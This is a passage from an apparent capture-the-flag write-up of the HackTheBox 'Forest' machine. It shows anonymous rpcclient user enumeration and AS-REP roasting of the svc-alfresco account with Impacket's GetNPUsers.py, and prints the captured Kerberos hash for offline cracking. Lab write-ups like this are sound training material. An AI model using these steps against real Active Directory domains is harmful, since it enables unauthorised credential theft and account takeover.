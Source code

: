 One thing that is missed potentially here is that there is a Service Account svc-alfredo that does not come up as a user through the LDAP query. What does display is:

```bash
# svc-alfresco, Service Accounts, htb.local
dn: CN=svc-alfresco,OU=Service Accounts,DC=htb,DC=loc
If we use rpcclient and do an enumdomusers, we do see the account:
┌─[✗]─[rin@parrot]─[~/boxes/Forest]
└──╼ $rpcclient -U '' -N forest.htb
rpcclient $> enumdomusers
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[DefaultAccount] rid:[0x1f7]
user:[$331000-VK4ADACQNUCA] rid:[0x463]
<SNIP>
user:[sebastien] rid:[0x479]
user:[lucinda] rid:[0x47a]
user:[svc-alfresco] rid:[0x47b]
user:[andy] rid:[0x47e]
user:[mark] rid:[0x47f]
user:[santi] rid:[0x480]
```

At this point, if we search the internet for svc-alfresco, we find that it is likely that it belongs to a product called Alfresco which is a content management system. If you dig through the documentation, there is a section about configuring Alfresco with Active Directory and in particular, it mentions the requirement that the service account needs to have the "Do not require Kerberos preauthentication" enabled \(https://docs.alfresco.com/5.1/tasks/auth-kerberos-ADconfig.html\). However, if you didn't see this then the next step would be potentially something you could try in any event. What we saw earlier, is that if preauthentication is not required, then any client can request a TGT from the KDC for any user. When the KDC responds, the TGT is encrypted using the users password hash and so it is then a matter of extracting the TGT and brute forcing it to reveal the password. This is known as AS-REP Roasting as the TGT is sent as part of an AS-REP message from the KDC to the user.

We can run Impacket's GetNPUsers.py script to check each user in the user list we have:

```bash
┌─[rin@parrot]─[~/boxes/Forest]
└──╼ $GetNPUsers.py htb.local/ -usersfile users.txt
Impacket v0.9.23.dev1+20201209.133255.ac307704 - Copyright 2020 SecureAuth Corporation
[-] User sebastien doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User lucinda doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User andy doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User mark doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User santi doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$svc-alfresco@HTB.LOCAL:6739c04fcfd386eda8158c40fa6e27ed$79f0e5a8e55491d4ad63e851a875466d363bdfceb0161256fb7b5aacd77667adfd2c794a09332226abab2aa203a31c9851f78762e9a5057c41e02f06c978313e9401569f1d3832ae6772204e851e28bfc729fd84b58aa72d55e3b0a87307088402128b0401974d737ee4de95cef948ac88725c513ebbd6d5323d708e8a250cdc747998080eb43898009fd93b2f0049206617ceb31d5a25c52dd7f01ad81135db213f194153468e81091e9e7d98ebc45cedf67e80064e9bb98efa8a8ba11b660979bd99e5d1d58261675810e9b858ff21fa469e8d9085f5c2944a3722abc97d8d6387bf517878
```
